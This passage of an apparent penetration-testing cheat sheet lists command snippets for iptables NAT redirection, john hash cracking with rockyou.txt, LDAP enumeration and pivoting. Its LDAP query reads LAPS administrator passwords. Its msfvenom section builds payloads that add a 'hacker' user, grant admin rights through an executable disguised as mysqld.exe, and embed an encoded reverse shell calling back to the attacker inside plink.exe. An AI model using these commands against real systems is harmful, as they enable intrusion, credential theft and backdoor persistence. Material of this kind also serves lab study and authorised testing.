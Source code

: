 - To redirect traffic from an incoming connection to 192.168.9.12 on port 51666/tcp to a NAT 10.10.10.10  on port 51666/tcp: `iptables -t nat -A PREROUTING -p tcp --dport 51666 -j DNAT --to-destination 10.10.10.10:51666`
- to list chains with line numbers: `iptables -L INPUT --line-numbers`
- to delete a rule by it's number: `iptables -D INPUT 3`
- to edit a rule by it's number: `iptables -R INPUT 6 <type out the new rule here>` `

## John

Cracking some SHA256 hashes with john, using the rockyou.txt as a wordlist, redirecting the output into athe johncracked.txt

- `john <hashes.txt> --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256 > johncracked.txt`

## LDAP enumeration

- ldapsearch (can also add -v for verbosity): `ldapsearch -x -H ldap://192.168.111.121 -D '' -w '' -b "DC=hank,DC=offs"`
- ldapsearch (when password is known): `ldapsearch -v -x -D fmcsorley@HUTCH.OFFSEC -w <PASSWORD HERE> -b "DC=hutch,DC=offsec" -H ldap://192.168.111.109 "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd`

## metasploit

- port forward: `portfwd add -L 0.0.0.0 -l 8888 -p 8080 -r 127.0.0.1`

## mount

- `mount -t nsf Mtarget IP>:/home/username /mnt/folder -nolock`

## msfvenom

- Windows add user: `msfvenom -p windows/adduser USER=hacker PASS=Password123! -f exe -o hackware.exe`
- add user to the local administrator group: `msfvenom -p windows/x64/exec CMD="net localgroup Administrators <username> /add" -f exe -o mysqld.exe`
- into an existing file: `msfvenom -p windows/shell_reverse_tcp LHOST=<kali IP> LPORT=<kali PORT> -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-resources/binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe`

## mysql

- start on Windows: `set path=%PATH%;D:\xampp\mysql\bin;` then: `mysql -u root -p`

## netsh / Windows

- **port forwarding:** Remember to add a firewall rule, +IP Helper from Services must be enabled and Ethernet properties, Internet Protocol Version 6 -> ON `netsh interface portproxy add v4tov4 listenport=4455 listenaddress=10.11.0.22 connectport=445 connectaddress=192.168.1.110`
- **netsh add firewall rule:** `netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=10.11.0.22 localport=4455 action=allow`
- **find listening port:** `netstat -anp TCP | find "4455"`
